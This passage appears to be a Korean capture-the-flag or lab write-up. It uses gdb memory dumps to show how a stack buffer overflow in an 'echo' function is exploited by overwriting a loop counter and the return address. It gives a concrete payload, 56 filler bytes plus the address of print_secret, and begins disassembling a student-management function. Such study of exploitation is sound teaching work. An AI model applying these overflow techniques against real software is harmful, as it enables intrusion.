 rsp+15에 해당하는 위치에 입력받은 문자열의 아스키값이 뜨고, 해당배열은 rsp+16부터 저장된다.  
rsp+48에서 들어온 문자열의 갯수를 센다. 어셈블리코드를 살펴보면, rsp+48의 값과 32를 비교하며 작거나 같을때까지 반복한다. 그럼 32번 반복해보자.

```
Breakpoint 1, 0x000000000040077f in echo ()
(gdb) x/10xg $rsp
0x7fffffffe3f0:	0x0000000000000000	0x6400000000000000
0x7fffffffe400:	0x6161616161616161	0x6262626262626161
0x7fffffffe410:	0x6363636362626262	0x6464636363636363
0x7fffffffe420:	0x0000000000000021	0x0000000000000000
0x7fffffffe430:	0x0000000000000000	0x00000000004007be
```

32번 반복되었을때 rsp+16부터 시작한 배열이 rsp+47번까지 꽉찬다.

```
(gdb) ni
0x0000000000400798 in echo ()
(gdb) x/10xg $rsp
0x7fffffffe3f0:	0x0000000000000000	0x6400000000000000
0x7fffffffe400:	0x6161616161616161	0x6262626262626161
0x7fffffffe410:	0x6363636362626262	0x6464636363636363
0x7fffffffe420:	0x0000000000000064	0x0000000000000000
0x7fffffffe430:	0x0000000000000000	0x00000000004007be
```

`0x0000000000400798 <+133>:	add    $0x1,%rbx`에서 %rbx는 반복문의 조건문에 해당하는 rsp+48에 도달하고 이 값을 입력값으로 대체한다.  
해당값은 32와 비교되어 반복문의 종료를 야기한다. 즉, bufferoverflow를 일으키기위해선 이 입력값을 32보다 작은 값으로 넣으면 된다. 그리고 main함수로의 return address에 도달하면 print_secret의 주소값으로 대치시킨다.  
코드에서 볼 수 있듯 add 0x40 %rsp 외에도 push된 rbx가 있으므로, 56개의 32보다 작은 더미값을 넣고 이후 print_secret의 주소를 넣으면 된다.  
`prog.send_line("\x02"*56+"\xa6\x06\x40")`

---

### 구조체 manage

```
   0x0000000000400968 <+0>:	push   %rbx
   0x0000000000400969 <+1>:	sub    $0x110,%rsp
   0x0000000000400970 <+8>:	mov    $0x0,%ebx
   0x0000000000400975 <+13>:	callq  0x400803 <usage>
   0x000000000040097a <+18>:	mov    $0x4,%esi
   0x000000000040097f <+23>:	mov    %rsp,%rdi
   0x0000000000400982 <+26>:	callq  0x400834 <safe_gets>
   0x0000000000400987 <+31>:	test   %eax,%eax
   0x0000000000400989 <+33>:	js     0x4009c6 <manage_students+94>
   0x000000000040098b <+35>:	movzbl (%rsp),%eax
   0x000000000040098f <+39>:	cmp    $0x41,%al
   0x0000000000400991 <+41>:	jne    0x4009a4 <manage_students+60>
   0x0000000000400993 <+43>:	mov    %ebx,%esi
   0x0000000000400995 <+45>:	lea    0x10(%rsp),%rdi
   0x000000000040099a <+50>:	callq  0x400886 <add_student>
   0x000000000040099f <+55>:	add    $0x1,%ebx
   0x00000000004009a2 <+58>:	jmp    0x400975 <manage_students+13>
   0x00000000004009a4 <+60>:	cmp    $0x55,%al
   0x00000000004009a6 <+62>:	jne    0x4009b6 <manage_students+78>
   0x00000000004009a8 <+64>:	mov    %ebx,%esi
   0x00000000004009aa <+66>:	lea    0x10(%rsp),%rdi
   0x00000000004009af <+71>:	callq  0x4008e7 <update_major>
   0x00000000004009b4 <+76>:	jmp    0x400975 <manage_students+13>
   0x00000000004009b6 <+78>:	cmp    $0x45,%al
   0x00000000004009b8 <+80>:	je     0x4009c6 <manage_students+94>
   0x00000000004009ba <+82>:	mov    $0x400af5,%edi
   0x00000000004009bf <+87>:	callq  0x400600 <puts@plt>
   0x00000000004009c4 <+92>:	jmp    0x400975 <manage_students+13>
   0x00000000004009c6 <+94>:	add    $0x110,%rsp
   0x00000000004009cd <+101>:	pop    %rbx
```